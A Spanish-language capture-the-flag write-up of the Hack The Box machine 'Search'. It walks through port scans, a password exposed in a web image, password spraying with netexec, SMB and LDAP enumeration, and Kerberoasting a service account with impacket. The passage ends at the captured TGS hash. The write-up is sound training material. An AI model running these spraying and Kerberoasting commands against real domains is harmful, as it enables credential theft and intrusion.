

+++
author = "Andrés Del Cerro"
title = "Hack The Box: Search Writeup | Hard"
date = "2024-12-04"
description = ""
tags = [
    "HackTheBox",
    "Search",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "DNS Enumeration",
    "HTTP Enumeration",
    "Information Disclosure",
    "Exposed User Credentials",
    "SMB Enumeration",
    "LDAP Enumeration",
    "ASREPRoast",
    "Kerberoast",
    "Hash Cracking",
    "TGS Cracking",
    "Password Spraying",
    "Abusing Password Reuse",
    "User Pivoting",
    "Bypassing Microsoft Excel Protection",
    "pfx2john",
    "Certificate Cracking",
    "Abusing Windows PowerShell Web Access",
    "BloodHound",
    "SharpHound",
    "Abusing ReadGMSAPassword",
    "Abusing GenericAll",
    "Abusing Windows Management Instrumentation",
    "wmiexec.py"
]

+++

# Hack The Box: Search Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Search"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
rustscan -a 10.129.229.57 --ulimit 5000 -g
10.129.229.57 -> [53,80,88,139,135,389,445,443,593,636,3269,3268,464,8172,9389,49667,49691,49692,49707,49717,49743]
```

```console
nmap -p53,80,88,139,135,389,445,443,593,636,3269,3268,464,8172,9389,49667,49691,49692,49707,49717,49743 -sCV 10.129.229.57 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 17:51 CET
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 9.52% done; ETC: 17:52 (0:00:57 remaining)
Nmap scan report for 10.129.229.57
Host is up (0.037s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Search &mdash; Just Testing IIS
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-04 16:51:33Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
| http-methods:
|_  Potentially risky methods: TRACE
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
8172/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after:  2030-04-05T09:05:25
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
49743/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-12-04T16:52:23
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.52 seconds
```
# UDP Enumeration

```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.229.57 -oN allPorts.UDP
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 17:51 CET
Nmap scan report for 10.129.229.57
Host is up (0.044s latency).
Not shown: 1498 open|filtered udp ports (no-response)
PORT    STATE SERVICE
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 0.86 seconds
```

Del escaneo inicial encontramos el dominio `search.htb`, lo añadimos al `/etc/hosts`

# DNS Enumeration
También me interesa saber el NS que suele ser el nombre que tiene el DC, podemos comprobar cual es el nombre del equipo con `dig` para comprobar el registro DNS.
```console
dig NS search.htb @10.129.229.57

; <<>> DiG 9.19.19-1-Debian <<>> NS search.htb @10.129.229.57
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 11934
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 4

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;search.htb.			IN	NS

;; ANSWER SECTION:
search.htb.		3600	IN	NS	research.search.htb.

;; ADDITIONAL SECTION:
research.search.htb.	3600	IN	A	10.129.229.57
research.search.htb.	3600	IN	AAAA	dead:beef::17e
research.search.htb.	3600	IN	AAAA	dead:beef::4ec:5801:d58:19f8

;; Query time: 40 msec
;; SERVER: 10.129.229.57#53(10.129.229.57) (UDP)
;; WHEN: Wed Dec 04 17:55:36 CET 2024
;; MSG SIZE  rcvd: 134
```

Añadimos `research.search.htb` al `/etc/hosts`

También podemos utilizar `dnsenum` para hacer fuerza bruta por si encontramos un nuevo subdominio interesante, y encontramos el subdominio `portal.search.htb`, también lo añadimos al `/etc/hosts`, aunque vemos que este subdominio apunta a una IP distinta de la máquina víctima.
```console
dnsenum --dnsserver 10.129.229.57 search.htb -f /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
dnsenum VERSION:1.2.6

-----   search.htb   -----


Host's addresses:
__________________

search.htb.                              600      IN    A        10.10.11.129


Name Servers:
______________

research.search.htb.                     3600     IN    A        10.129.229.57


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: research.search.htb at /usr/bin/dnsenum line 897.

Trying Zone Transfer for search.htb on research.search.htb ...
AXFR record query failed: no nameservers


Brute forcing with /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:
__________________________________________________________________________________________________

portal.search.htb.                       1200     IN    A        10.10.11.11
research.search.htb.                     3600     IN    A        10.129.229.57
gc._msdcs.search.htb.                    600      IN    A        10.10.11.129
```

# HTTP Enumeration
Vamos a empezar enumerando el servicio HTTP ya que no es común encontrarnos un IIS en una máquina de directorio activo.

`whatweb` no nos reporta nada interesante.
```console
http://search.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[youremail@search.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.229.57], JQuery[3.3.1], Microsoft-IIS[10.0], Script, Title[Search &mdash; Just Testing IIS], X-Powered-By[ASP.NET]
```

Así se ve el sitio web.


# Exposed User Credential
Rápidamente nos damos cuenta de que por alguna razón, en una imagen expuesta en la página principal se expone una credencial.


Parece que esta credencial es para `Hope Sharp` que podemos crear una lista con variaciones de este usuario, y la credencial es `IsolationIsKey?`


Vemos también una serie de posibles usuarios, vamos a crear una lista de posibles usuarios del dominio con variaciones y también añadiendo a `Hope Sharp`


Esta es la lista que he creado.
```text
hope.sharp
h.sharp
hope.s
hopesharp
hopes
hsharp
keelylyons
k.lyons
keely.l
keelyl
klyons
daxsantiago
dax.s
d.santiago
daxs
dsantiago
sierra.frye
s.frye
sierrafrye
sierra.f
sierraf
sfrye
kylastewart
kyla.stewart
k.stewart
kyla.s
kylas
kstewart
k.spencer
kaiaraspencer
kaiara.s
kaiaras
k.spencer
kspencer
kaiara.spencer
davesimpson
dave.simpson
d.simpson
dave.s
daves
dsimpson
b.thompson
ben.thompson
benthompson
bthompson
ben.t
bent
chris.stewart
chrisstewart
chris.s
chriss
c.stewart
cstewart
```

Con `netexec` podemos ver que tenemos unas credenciales válidas.
```console
nxc smb 10.129.229.57 -u users.txt -p 'IsolationIsKey?' --continue-on-success
SMB         10.129.229.57   445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.57   445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\h.sharp:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\hope.s:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\hopesharp:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\hopes:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\hsharp:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\keelylyons:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\k.lyons:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\keely.l:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\keelyl:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\klyons:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\daxsantiago:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\dax.s:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\d.santiago:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\daxs:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\dsantiago:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\sierra.frye:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\s.frye:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\sierrafrye:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\sierra.f:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\sierraf:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\sfrye:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kylastewart:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kyla.stewart:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\k.stewart:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kyla.s:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kylas:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kstewart:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\k.spencer:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kaiaraspencer:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kaiara.s:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kaiaras:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\k.spencer:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kspencer:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\kaiara.spencer:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\davesimpson:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\dave.simpson:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\d.simpson:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\dave.s:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\daves:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\dsimpson:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\b.thompson:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\ben.thompson:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\benthompson:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\bthompson:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\ben.t:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\bent:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\chris.stewart:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\chrisstewart:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\chris.s:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\chriss:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\c.stewart:IsolationIsKey? STATUS_LOGON_FAILURE
SMB         10.129.229.57   445    RESEARCH         [-] search.htb\cstewart:IsolationIsKey? STATUS_LOGON_FAILURE
```

# SMB Enumeration
Encontramos algunos recursos interesantes, entre ellos se encuentra `CertEnroll` que nos indica que por detrás existe un servicio Active Directory Certificate Services, por lo cual quizás tengamos que jugar con certificados en algún punto de la máquina.
```console
smbmap -H 10.129.229.57 -u 'hope.sharp' -p 'IsolationIsKey?' --no-banner
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.129.229.57:445	Name: research.search.htb 	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	CertEnroll                                        	READ ONLY	Active Directory Certificate Services share
	helpdesk                                          	NO ACCESS	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share
	RedirectedFolders$                                	READ, WRITE	
	SYSVOL                                            	READ ONLY	Logon server share
```

También vemos un recurso `helpdesk` que puede ser interesante, pero no tenemos acceso por ahora.

Encontramos algunos recursos que podrían ser interesantes, vamos a descargarlos.
```console
smb: \> dir
  .                                  Dc        0  Wed Dec  4 18:27:11 2024
  ..                                 Dc        0  Wed Dec  4 18:27:11 2024
  nsrev_search-RESEARCH-CA.asp       Ac      330  Tue Apr  7 09:29:31 2020
  Research.search.htb_search-RESEARCH-CA.crt     Ac      883  Tue Apr  7 09:29:29 2020
  search-RESEARCH-CA+.crl            Ac      735  Wed Dec  4 18:27:11 2024
  search-RESEARCH-CA.crl             Ac      931  Wed Dec  4 18:27:11 2024
```

Podemos analizar el fragmento de código del archivo `nsrev_search-RESEARCH-CA.asp`
```aspx
<%
Response.ContentType = "application/x-netscape-revocation"
serialnumber = Request.QueryString
set Admin = Server.CreateObject("CertificateAuthority.Admin")

stat = Admin.IsValidCertificate("Research.search.htb\search-RESEARCH-CA", serialnumber)

if stat = 3 then Response.Write("0") else Response.Write("1") end if
%>
```

Este script simplemente verifica el estado de un certificado digital utilizando un objeto `CertificateAuthority.Admin`

Igualmente no sabemos donde se está utilizando este script así que por ahora no podemos hacer mucho.

Podemos analizar el certificado encontrado con `openssl`
```console
openssl x509 -in Research.search.htb_search-RESEARCH-CA.crt -text -noout
```

Y vemos que el que ha emitido este certificado a sido la propia `Certificate Authority` cuyo nombre es `search-RESEARCH-CA`

Analizando el recurso `RedirectedFolders$` vemos que son los directorios personales de los usuarios, no podemos acceder a ninguno que no sea de nuestro usuario. 

```console
smbclient \\\\10.129.121.52\\'RedirectedFolders$' -U 'hope.sharp%IsolationIsKey?'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  Dc        0  Wed Dec  4 18:57:58 2024
  ..                                 Dc        0  Wed Dec  4 18:57:58 2024
  abril.suarez                       Dc        0  Tue Apr  7 20:12:58 2020
  Angie.Duffy                        Dc        0  Fri Jul 31 15:11:32 2020
  Antony.Russo                       Dc        0  Fri Jul 31 14:35:32 2020
  belen.compton                      Dc        0  Tue Apr  7 20:32:31 2020
  Cameron.Melendez                   Dc        0  Fri Jul 31 14:37:36 2020
  chanel.bell                        Dc        0  Tue Apr  7 20:15:09 2020
  Claudia.Pugh                       Dc        0  Fri Jul 31 15:09:08 2020
  Cortez.Hickman                     Dc        0  Fri Jul 31 14:02:04 2020
  dax.santiago                       Dc        0  Tue Apr  7 20:20:08 2020
  Eddie.Stevens                      Dc        0  Fri Jul 31 13:55:34 2020
  edgar.jacobs                       Dc        0  Thu Apr  9 22:04:11 2020
  Edith.Walls                        Dc        0  Fri Jul 31 14:39:50 2020
  eve.galvan                         Dc        0  Tue Apr  7 20:23:13 2020
  frederick.cuevas                   Dc        0  Tue Apr  7 20:29:22 2020
  hope.sharp                         Dc        0  Thu Apr  9 16:34:41 2020
  jayla.roberts                      Dc        0  Tue Apr  7 20:07:00 2020
  Jordan.Gregory                     Dc        0  Fri Jul 31 15:01:06 2020
  payton.harmon                      Dc        0  Thu Apr  9 22:11:39 2020
  Reginald.Morton                    Dc        0  Fri Jul 31 13:44:32 2020
  santino.benjamin                   Dc        0  Tue Apr  7 20:10:25 2020
  Savanah.Velazquez                  Dc        0  Fri Jul 31 14:21:42 2020
  sierra.frye                        Dc        0  Thu Nov 18 02:01:46 2021
  trace.ryan                         Dc        0  Thu Apr  9 22:14:26 2020

		3246079 blocks of size 4096. 768686 blocks available
```

Nuestro usuario no tiene ningún archivo interesante.

```console
smb: \> cd hope.sharp
smb: \hope.sharp\> dir
  .                                  Dc        0  Thu Apr  9 16:34:41 2020
  ..                                 Dc        0  Thu Apr  9 16:34:41 2020
  Desktop                           DRc        0  Thu Apr  9 16:35:49 2020
  Documents                         DRc        0  Thu Apr  9 16:35:50 2020
  Downloads                         DRc        0  Thu Apr  9 16:35:49 2020

		3246079 blocks of size 4096. 768684 blocks available
smb: \hope.sharp\> cd Desktop
smb: \hope.sharp\Desktop\> dir
  .                                 DRc        0  Thu Apr  9 16:35:49 2020
  ..                                DRc        0  Thu Apr  9 16:35:49 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 16:35:49 2020
  desktop.ini                      AHSc      282  Thu Apr  9 16:35:00 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 16:35:38 2020

		3246079 blocks of size 4096. 768680 blocks available
smb: \hope.sharp\Desktop\> cd ..
smb: \hope.sharp\> cd Documents
smb: \hope.sharp\Documents\> dir
  .                                 DRc        0  Thu Apr  9 16:35:50 2020
  ..                                DRc        0  Thu Apr  9 16:35:50 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 16:35:51 2020
  desktop.ini                      AHSc      402  Thu Apr  9 16:35:03 2020

		3246079 blocks of size 4096. 768684 blocks available
smb: \hope.sharp\Documents\> cd ..
smb: \hope.sharp\> cd Downloads dir
smb: \hope.sharp\Downloads\> dir
  .                                 DRc        0  Thu Apr  9 16:35:49 2020
  ..                                DRc        0  Thu Apr  9 16:35:49 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 16:35:49 2020
  desktop.ini                      AHSc      282  Thu Apr  9 16:35:02 2020

		3246079 blocks of size 4096. 768684 blocks available
```

# ASREPRoast (failed) & Kerberoast
## LDAP Enumeration
Ahora podemos probar varias cosas, lo primero que quiero hacer es enumerar los usuarios del dominio para tener una lista de usuarios válidas para probar los típicos ataques de ASREPRoast o ver si alguna cuenta es kerberoastable.

Podemos utilizar `ldapdomaindump` para enumerar la información del LDAP en términos generales.
```console
ldapdomaindump -n 10.129.121.52 --no-grep --no-json -u search.htb\\hope.sharp -p 'IsolationIsKey?' search.htb
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Podemos servir estos archivos utilizando el módulo `http.server` de `python3`
```console
ls
domain_computers_by_os.html  domain_computers.html  domain_groups.html  domain_policy.html  domain_trusts.html  domain_users_by_group.html  domain_users.html
```

Ahora podemos visualizarlos de forma cómoda a través de nuestro navegador.


Para extraer los usuarios del dominio, podemos hacer un one-liner utilizando expresiones regulares y `awk`
```console
awk -F'</td><td>' '{if ($4) print $3}' RS='</tr>' domain_users.html | sed 's/<[^>]*>//g'
Tristan.Davies
web_svc
Jordan.Gregory
Claudia.Pugh
Angie.Duffy
Kaylin.Bird
Isabela.Estrada
Haven.Summers
Kayley.Ferguson
Crystal.Greer
Tristen.Christian
Judah.Frye
Maci.Graves
Sierra.Frye
Angel.Atkinson
Braeden.Rasmussen
Keith.Hester
Tyshawn.Peck
Camren.Luna
Cesar.Yang
Vincent.Sutton
Joy.Costa
Abby.Gonzalez
Keely.Lyons
Cade.Austin
Jeramiah.Fritz
Eve.Galvan
Colby.Russell
Aarav.Fry
Gunnar.Callahan
Ada.Gillespie
Annabelle.Wells
Hunter.Kirby
Melanie.Santiago
Kylee.Davila
Hope.Sharp
Zain.Hopkins
German.Rice
Jolie.Lee
Hugo.Forbes
Tori.Mora
Yaritza.Riddle
Abbigail.Turner
Claudia.Sharp
Desmond.Bonilla
Monique.Moreno
Charlee.Wilkinson
Taniya.Hardy
Lorelei.Huang
Jayla.Roberts
Lillie.Saunders
Dax.Santiago
Eliezer.Jordan
Scarlett.Parks
Chanel.Bell
Natasha.Mayer
Maren.Guzman
Sage.Henson
Katelynn.Costa
Cadence.Conner
Amari.Mora
Belen.Compton
Elisha.Watts
Edgar.Jacobs
Marshall.Skinner
Frederick.Cuevas
Savanah.Knox
Amare.Serrano
Lizeth.Love
Maeve.Mann
Sonia.Schneider
Armando.Nash
Prince.Hobbs
Griffin.Maddox
Yareli.Mcintyre
Rene.Larson
Sandra.Wolfe
Jamar.Holt
Alfred.Chan
Jermaine.Franco
Sarai.Boone
Saniyah.Roy
Kyler.Arias
Kaitlynn.Lee
Celia.Moreno
Margaret.Robinson
Blaine.Zavala
Bobby.Wolf
Arielle.Schultz
Lane.Wu
Edith.Walls
Cameron.Melendez
Antony.Russo
Savanah.Velazquez
Abril.Suarez
Chace.Oneill
Cortez.Hickman
Eddie.Stevens
Reginald.Morton
Trace.Ryan
Payton.Harmon
Santino.Benjamin
krbtgt
Guest
Administrator
```

Con `impacket-GetNPUsers` podemos probar a ver si alguno de estos usuarios tiene el atributo `UF_DONT_REQUIRE_PREAUTH` y de esta forma poder conseguir un TGT con el hash de la credencial del usuario que podríamos crackear de forma offline pero no tenemos suerte.
```console
impacket-GetNPUsers -no-pass -dc-ip 10.129.121.52 -usersfile users.txt search.htb/
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[-] User Tristan.Davies doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User web_svc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jordan.Gregory doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Claudia.Pugh doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Angie.Duffy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kaylin.Bird doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Isabela.Estrada doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Haven.Summers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kayley.Ferguson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Crystal.Greer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Tristen.Christian doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Judah.Frye doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Maci.Graves doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Sierra.Frye doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Angel.Atkinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Braeden.Rasmussen doesn't have UF_DONT_REQUIRE_PREAUTH set
........
[-] User Reginald.Morton doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Trace.Ryan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Payton.Harmon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Santino.Benjamin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Con `impacket-GetUserSPNs` podemos comprobar si existe algún usuario que sea kerberoastable y vemos que existe uno, `web_svc`
```console
impacket-GetUserSPNs -dc-ip 10.129.121.52 search.htb/hope.sharp:'IsolationIsKey?'
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 14:59:11.329031  <never>
```

## Cracking TGS w/john
Con el parámetro `-request` podemos solicitar un TGS que va a contener un hash que podemos crackear correspondiente a la credencial de `web_svc`
```console
impacket-GetUserSPNs -dc-ip 10.129.121.52 search.htb/hope.sharp:'IsolationIsKey?' -request
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 14:59:11.329031  <never>


[-] CCache file is not found. Skipping...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$38510f375a74dbf8cbd0bbed592887ac$25111ace0c3569a449555873ed4d3605c9dd5008e0d1729ba08167575d372bfa71e4dc546c01d5558ed1df478ec66fab6bc9bcce97a53141250e1670a30c49ae881f882790553dee295ccc1fe0ac632360b9f23e302330ad021c94f3cc01f6d6dea769fd905e75eead545bef8514b73065f5b63f36da8a5fbdadb55d122aadc440ef902f10a3d5711f1672fb9ff47c7a0046dfe3d30f16e0fc90c64e393b31bb0c8e98d9ea7bffcc6e185df592223c6c54cb99ad96684cb501b2c871f3bd02a4e7d08d5636cdfa375540a79598ad5bfc1b420f5c67b5d8fe2c80e379bec72442a4819cc34452881f3e27f0afdac44db0647157edeaea4557a7bc7e1479b215e7a19dc4da078b9187623c93d7d4eac37abc42e2436475585a430ad8423c54535d7270eb7f10efc4fdb3584ca3c041af2d548081ebf2fe1b43758122b13ad8c405bd4f15a29eeebfc79e299b88154b0ada8327fb1efbfbba30ea1173684ad69e92857e0b8f8ad0407819e504ea41d6a80e26b00e0ef427eff96af45427fd50781038d63c90b7eb22510f26a574b6c8c9348e3af697b109f3895d6df4b9d0423000406fdd80d9edb7882073195935fcffdb304b1c0d17809080fa4dfae6858fb139d4a5